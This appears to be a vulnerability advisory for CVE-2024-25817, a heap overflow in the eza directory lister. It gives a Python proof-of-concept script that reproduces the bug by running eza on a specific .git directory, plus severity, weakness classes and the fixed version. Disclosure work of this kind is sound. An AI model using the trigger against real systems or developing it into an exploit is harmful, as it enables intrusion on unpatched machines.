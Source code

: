 ```yaml
---
title: "CVE-2024-25817"
published: 2024-02-07
updated: 2024-06-08
description: >-
  "In eza, there exists a potential heap overflow vulnerability, first seen when
  using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel,
  relating to the `.git` directory."
tags: ["CVE"]
category: "CVE"
draft: false
---
```


# Summary

In `eza` [^1] (before `v0.18.11`), there exists a heap overflow vulnerability, first seen when using Ubuntu for Raspberry Pi series system, on `ubuntu-raspi` kernel, relating to the `.git` directory.

# Details

The vulnerability seems to be triggered by the `.git` directory in some projects. This issue may be related to specific files, and the directory structure also plays a role in triggering the vulnerability. Files/folders that may be involved in triggering the vulnerability include `.git/HEAD`, `.git/refs`, and `.git/objects`.

# PoC - If you have Raspberry Pi 4B bare metal machine

**If you don't have Raspberry Pi bare metal, you can try emulate a ubuntu for raspberry system in virtual machine.**

You just need install any one of Ubuntu for Raspberry Pi series system in your bare metal machine.

## Tested platform info

Configuration in `Raspberry Pi 4B` bare metal machine:

```bash
eza version: v0.18.10 [+git]

Linux lux 5.15.0-1049-raspi #52-Ubuntu SMP PREEMPT Thu Mar 14 08:39:42 UTC 2024 aarch64 aarch64 aarch64 GNU/Linux

Distributor ID: Ubuntu
Description: Ubuntu 22.04.4 LTS
Release: 22.04
Codename: jammy
```

> [!IMPORTANT]
> So far I have only tested the `Ubuntu 22.04.4 LTS Server` and confirmed that this vulnerability exists. I haven't test other System/Raspberry Pi yet.

## Steps

Install `eza (<=v0.18.10)` in Raspberry Pi. Process can refer to the official [wiki](https://github.com/eza-community/eza/blob/main/INSTALL.md).

```python
#!/usr/bin/env python3

import os
import shutil
import subprocess

# Step 1: Clone the repository
repo_url = "https://github.com/umami-software/umami.git"
subprocess.run(["git", "clone", repo_url])

# Step 2: Checkout to the specific commit contain the special '.git' directory that can trigger the vulnerability
repo_dir = "umami"
commit_hash = "a38baa5"
os.chdir(repo_dir)
subprocess.run(["git", "checkout", commit_hash])

# Step 3: Create a directory for the vulnerability related files
os.chdir("..")
os.mkdir("suspicious")
shutil.move(os.path.join(repo_dir, ".git"), "suspicious/.git")

# Step 4: Remove unrelated files/directories
shutil.rmtree(repo_dir)

# Step 5: Trigger the vulnerability
subprocess.run(["eza", "-l", "--git", "suspicious/.git"])
```

![](https://ghproxy.net/https://raw.githubusercontent.com/CuB3y0nd/picx-images-hosting/master/.23262laj6h.avif)

> [!NOTE]
> The picture shows my test environment. In actual testing, the vulnerability can be triggered by just using the above script.

# Impact

Arbitrary code execution.

# Severity using CVSS

Severity: `High 8.4`<br />
Vector string: `CVSS:3.1/AV:L/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H`

# Weaknesses

- Heap-based Buffer Overflow (CWE-122)
- Improper Restriction of Operations within the Bounds of a Memory Buffer
  (CWE-119)
- Missing Release of Memory after Effective Lifetime (CWE-401)
- Improper Resource Shutdown or Release (CWE-404)
- Improper Initialization (CWE-665)

# GitHub Advisories

- GitHub Advisories.[^3]

# NIST

- National Vulnerability Database.[^4]

# Solution

Update eza to `0.18.11` or higher version.

# References

[^1]:
    [eza](https://github.com/eza-community/eza/tree/main): A modern,
    maintained replacement for ls.

[^3]: [GitHub Advisories](https://github.com/advisories/GHSA-3qx3-6hxr-j2ch)
[^4]: [CVE-2024-25817](https://nvd.nist.gov/vuln/detail/CVE-2024-25817)
